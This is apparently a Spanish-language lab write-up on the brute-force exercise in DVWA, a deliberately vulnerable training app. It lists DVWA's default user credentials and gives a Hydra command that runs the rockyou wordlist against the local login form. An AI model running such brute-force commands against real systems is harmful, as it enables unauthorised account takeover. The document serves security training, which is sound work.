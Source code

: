 # 🔐 DVWA - Brute Force

## 📌 Descripción
La vulnerabilidad **Brute Force** ocurre cuando un formulario de autenticación no implementa controles adecuados contra intentos repetidos de login.  
Esto permite a un atacante probar múltiples combinaciones de usuario y contraseña hasta encontrar las correctas.

En entornos reales, este tipo de ataque puede comprometer cuentas críticas, sobre todo si:

- No hay bloqueo de cuenta tras múltiples intentos fallidos.
- No se implementan captchas o retardos entre intentos.
- Se utilizan contraseñas débiles.

---

## 🛠️ Escenario en DVWA

- **Ruta vulnerable:**  
  `http://127.0.0.1:8080/vulnerabilities/brute/`
  
- **Nivel de seguridad:** LOW (a propósito, no hay protección contra intentos ilimitados).

- **Usuarios válidos conocidos (según DVWA):**
  
  - `admin : password`
  - `gordonb : abc123`
  - `1337 : charley`
  - `pablo : letmein`
  - `smithy : password`

---

## 🔎 Paso 1: Reconocimiento manual

Abrimos la URL en el navegador y observamos un **formulario de login simple**:

- Campos: `username`, `password`
- Botón de "Login"

Probamos manualmente con un usuario correcto (`admin : password`) para verificar que funciona.

---

## 🔑 Paso 2: Ataque con Hydra

Usamos `hydra` para automatizar intentos de login:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed" \
-V -I -t 4 -s 8080
```
